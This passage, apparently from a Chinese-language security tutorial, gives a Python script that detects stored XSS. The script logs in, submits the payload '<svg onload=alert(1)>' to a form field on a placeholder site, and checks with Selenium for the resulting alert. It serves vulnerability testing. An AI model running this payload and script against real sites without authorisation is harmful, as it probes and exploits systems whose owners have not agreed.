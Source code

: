 配置了目标URL、显示URL、登录URL和登录凭据。

调用  test_stored_xss  函数，执行存储型XSS漏洞检测。

根据检测结果，输出是否存在漏洞。

完整代码如下：

~~~python
import requests
from selenium import webdriver
from selenium.webdriver.common.alert import Alert
import time

def test_stored_xss(target_url, display_url, login_url=None, creds=None):
   
    # 初始化会话
    session = requests.Session()    
    # 处理认证
    if login_url and creds:
        session.post(login_url, data=creds)

    payload = "<svg onload=alert(1)>"
    post_data = {'vulnerable_field': payload}  # 修改为实际参数名
    
    session.post(target_url, data=post_data)
    time.sleep(3)  # 等待服务器处理
  
    driver = webdriver.Chrome()
    try:
        driver.get(display_url)
        time.sleep(3) 
        
        # 获取页面上的警告框
        alert = Alert(driver)
        if "1" in alert.text:
            print(f"[+] 漏洞存在! Payload: {payload}")
            alert.accept()  # 如果存在弹窗，点击接受
            return True
        else:
            print("[-] 未检测到弹窗")
            return False
    except Exception as e:
        print(f"[-] 验证异常: {str(e)}")
        return False
    finally:
        driver.quit()

if __name__ == "__main__":
    TARGET = "http://vuln-site.com/comment.php"  
    DISPLAY = "http://vuln-site.com/comments.php" 
    LOGIN = "http://vuln-site.com/login.php"
    CREDS = {'username': 'test', 'password': 'test123'}    
    test_stored_xss(TARGET, DISPLAY, LOGIN, CREDS)
~~~

****